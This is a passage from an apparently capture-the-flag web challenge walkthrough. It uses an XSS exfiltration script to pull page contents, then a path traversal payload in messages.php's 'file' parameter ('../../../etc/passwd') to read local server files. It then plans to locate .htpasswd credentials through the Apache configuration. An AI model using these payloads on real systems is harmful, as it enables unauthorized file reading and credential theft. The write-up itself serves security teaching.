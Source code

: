 Let's try to see the contents of `messages.php` by adding
the following to our payload script

```javascript
exfil_page_content("messages.php");
```

When the payload is run, we see this in our logs

// alert-messages-b64

The content of the page can be decoded from base64 using
[cyberchef](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"}
and we receive the following

// alert-messages-content
```html
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

The important bit is the `file` HTTP parameter. It points
to a `txt` file, but what if we try to access a different
file on the system?

Change the page we want to exfiltrate to `/etc/passwd`

```
exfil_page_content("messages.php?file=../../../../../../../etc/passwd");
```

Decoding the response we get

// etc-passwd-leak

Now we have a way to read local files on the server!

### Credentials
> What part of the website needs credentials? Where are
> those credentials stored?
{: .prompt-tip }

Remember that pesky subdomain that required HTTP authentication
to access? HTTP authentication uses credentials specified in
`.htpasswd` files. That's all well and good, but we don't
know where these files are stored. Typically they're found
in the `/var/www/WEBSITE-NAME/.htpasswd` directory, but
we aren't certain what they named statistics folder.
Brute forcing with some educated guesses could work, but
there's an easier way!

We know from our initial port scan that the HTTP server
is running Apache. Reading some
[public documentation](https://cyberchef.org/){:target="_blank"}{:rel="noopener noreferrer"}
, we know that the apache configuration file is located
in `/etc/apache2/sites-available/000-default.conf`. So
let's read the content of that file
